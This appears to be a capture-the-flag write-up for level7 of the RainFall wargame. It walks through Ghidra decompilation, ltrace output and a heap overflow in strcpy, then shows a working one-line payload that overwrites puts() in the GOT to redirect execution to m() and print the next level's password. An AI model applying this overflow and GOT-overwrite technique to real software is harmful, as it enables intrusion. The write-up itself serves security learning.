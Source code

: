 ## Basic analysis
~~~shell
level7@RainFall:~$ ./level7
Segmentation fault (core dumped)
level7@RainFall:~$ ./level7 42
Segmentation fault (core dumped)
level7@RainFall:~$ ./level7 42 42
~~
~~~
OK, so binary refuses to talk to us until there are two arguments passed. Let's examine with **Ghidra** tool.
~~~C
undefined4 main(undefined4 param_1,int param_2)
{
  undefined4 *puVar1;
  void *pvVar2;
  undefined4 *puVar3;
  FILE *__stream;
  
  puVar1 = (undefined4 *)malloc(8);
  *puVar1 = 1;
  pvVar2 = malloc(8);
  puVar1[1] = pvVar2;
  puVar3 = (undefined4 *)malloc(8);
  *puVar3 = 2;
  pvVar2 = malloc(8);
  puVar3[1] = pvVar2;
  strcpy((char *)puVar1[1],*(char **)(param_2 + 4));
  strcpy((char *)puVar3[1],*(char **)(param_2 + 8));
  __stream = fopen("/home/user/level8/.pass","r");
  fgets(c,0x44,__stream);
  puts("~~");
  return 0;
}
~~~
It allocates some memory for parameters, but the main part is the file stream, which is obvisously read into the variable **c**, which is not used here. Let's dig further...until we find the 
**m()** function that is printing the c variable (also doe some other useless stuff..).
~~~C
void m(void *param_1,int param_2,char *param_3,int param_4,int param_5)
{
  time_t param2;
  
  param2 = time((time_t *)0x0);
  printf("%s - %d\n",c,param2);
  return;
}
~~~
We therefore need to run m().

## Buffer overflow

We will use vulnerable strcpy for this, this time it will be a little more complex. We can try to run the binary with **ltrace** to see what library functions are being called during the runtime and with what arguments...
~~~shell
level7@RainFall:~$ ltrace ./level7 42 42
__libc_start_main(0x8048521, 3, 0xbffff7e4, 0x8048610, 0x8048680 <unfinished ...>
malloc(8)                                        = 0x0804a008
malloc(8)                                        = 0x0804a018
malloc(8)                                        = 0x0804a028
malloc(8)                                        = 0x0804a038
strcpy(0x0804a018, "42")                         = 0x0804a018
strcpy(0x0804a038, "42")                         = 0x0804a038
fopen("/home/user/level8/.pass", "r")            = 0
fgets( <unfinished ...>
--- SIGSEGV (Segmentation fault) ---
+++ killed by SIGSEGV +++
~~~
As previously seen in the Ghidra analysis, program calls malloc four times, allocating the memory for arguments, than uses strcpy to copy them to this space. 

Now, lets try to overflow the argv[1] using **Wiremask** pattern generator:
~~~shell
level7@RainFall:~$ ltrace ./level7 Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
__libc_start_main(0x8048521, 2, 0xbffff784, 0x8048610, 0x8048680 <unfinished ...>
malloc(8)                                        = 0x0804a008
malloc(8)                                        = 0x0804a018
malloc(8)                                        = 0x0804a028
malloc(8)                                        = 0x0804a038
strcpy(0x0804a018, "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab"...) = 0x0804a018
strcpy(0x37614136, NULL <unfinished ...>
--- SIGSEGV (Segmentation fault) ---
+++ killed by SIGSEGV +++
~~~
Here, we can observe, that it overflows at the offset of 20 - **rewriting** the dest arg of the second strcpy. 
So we use the seemingly useless function **puts()** taht has no real effect in the program flow, and rewrite it with **m()**.

The payload will look like this:  
argument 1: offset of 20 + address of puts() taken from GOT (**0x08049928**)  
argument 2: address of m() (**0x080484f4**)- so the second strcpy will use it as "dest" to copy it into, alternating the program flow.

~~~shell
level7@RainFall:~$ ./level7 $(python -c "print 10 * '42' + '\x08\x04\x99\x28'[::-1]") $(python -c "print '\x08\x04\x84\xf4'[::-1]")
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
 - 1724425505
~~~



